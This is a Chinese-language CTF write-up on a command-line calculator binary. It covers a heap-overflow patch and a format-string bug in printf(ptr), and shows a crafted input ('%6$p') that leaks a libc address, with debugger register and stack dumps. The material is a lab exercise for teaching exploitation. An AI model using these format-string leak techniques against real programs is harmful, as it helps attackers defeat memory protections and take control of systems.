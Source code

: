 完成patch后，ptr缓冲区变大，可以有效的缓解堆溢出漏洞，虽然没有从根本上解决堆溢出问题，但其他队伍在拿不到patch后文件的情况下，很难再次利用此漏洞来获取shell。

### 格式化字符串漏洞
当程序扫描到左括号"("时，会继续递归构造语法树，如果递归的出口不是右括号")"时，括号的闭合检查失败，程序会打印错误的输入：
```c
_DWORD *sub_400E84()
{
  sub_40095A();
  v1 = sub_4010E5();//递归部分
  if ( v1 ){
    if ( value == 7 ){//右括号对应的符号值
      sub_40095A();
      result = v1;
    }
    else{
      puts("Expecting )");
      printf(ptr);//打印错误的输入
      sub_400D64(v1);
      result = 0LL;
    }
  }
  else
    result = 0LL;
  return result;
}
```
观察上面的代码可以看出，打印错误输入的代码printf(ptr)存在格式化字符串漏洞，通过构造一些错误的表达式，可以触发漏洞代码被执行：
```plain
lwh@ubuntu:~/Desktop$ ./calc 
Simple Integer Arithmetic Calculator
Valid chars: 0123456789+-*/()
Enter "exit" to quit
>(2a)  
Expecting )
a)>
```
在非法表达式(2a)中，a)被当成了错误部分输出。
#### 漏洞利用
##### 1.leak libc
拿到格式化字符串漏洞后第一时间的想法就是可以利用这个漏洞来泄露一些信息，在这里，通过如下操作可以泄露libc上 _IO_2_1_stdin_的地址：
```plain
lwh@ubuntu:~/Desktop$ ./calc 
Simple Integer Arithmetic Calculator
Valid chars: 0123456789+-*/()
Enter "exit" to quit
>1
1
>((1%6$p)   //在x86_64下，%6$p会打印栈顶数据
Expecting )
0x7fdcea2518e0)>
```
```plain
[----------------------------------registers-----------------------------------]
RAX: 0x25ab010 --> 0x2970243625 ('%6$p)')
RDI: 0x25ab010 --> 0x2970243625 ('%6$p)')
RSP: 0x7ffcd17eade0 --> 0x7fdcea2518e0 --> 0xfbad208b 
RIP: 0x400ed1 (mov    eax,0x0)
[-------------------------------------code-------------------------------------]
   0x400ec7:	mov    rax,QWORD PTR [rip+0x2015d2]        # 0x6024a0
   0x400ece:	mov    rdi,rax
=> 0x400ed1:	mov    eax,0x0
   0x400ed6:	call   0x4006a0 <printf@plt>
   0x400edb:	mov    rax,QWORD PTR [rbp-0x8]
[------------------------------------stack-------------------------------------]
```